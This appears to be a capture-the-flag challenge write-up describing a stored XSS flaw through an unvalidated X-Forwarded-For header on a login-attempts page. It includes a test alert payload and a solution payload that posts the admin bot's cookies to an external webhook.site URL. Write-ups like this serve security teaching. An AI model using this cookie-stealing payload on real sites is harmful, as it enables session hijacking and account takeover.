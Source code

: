 # Description
The **admin** is quite paranoid and he often checks whether someone is trying to access with his credentials on its website.

# Explanation
The challenge is based on **Cross-Site Scripting vulnerability**.

After register a new use and login, it is possible to view whether there has been some login attempts with wrong credentials.

It's shown the source IP and the timestamp of the attempt in case of.

By including the standard HTTP header to identify the origin IP (**X-Forwarded-For**), it is possible to change the source IP shown in the page.

The server does not validate input on this header and it is vulnerable to XSS, thus by writing JS code in the header, the browser will execute it.

# Example
```bash
curl 'http://localhost:5000/login' -H 'X-Forwarded-For: <script>alert(1)</script>' --data 'username=test&password=wrong_password'
```
By trying to login as 'test' user with wrong password and JS code in the header, the next time the user correctly login will see the alert popup

# Write-up
The flag is stored inside cookies of the 'admin' user (as well as his session which can be used to login as 'admin').

We have a bot which login as 'admin' every second in order to execute the injected JS code.

In order to retrieve the flag, we have to inject code to send to a webhook server (i.e. free services like **https://webhook.site/**) the cookies of the user.

## Solution example:
```bash
X-Forwarded-For: '<script>var xhr = new XMLHttpRequest(); xhr.open("POST", "https://webhook.site/02a161bb-5d64-4827-aaab-880654b0eccb"); xhr.send(document.cookie);</script>
```

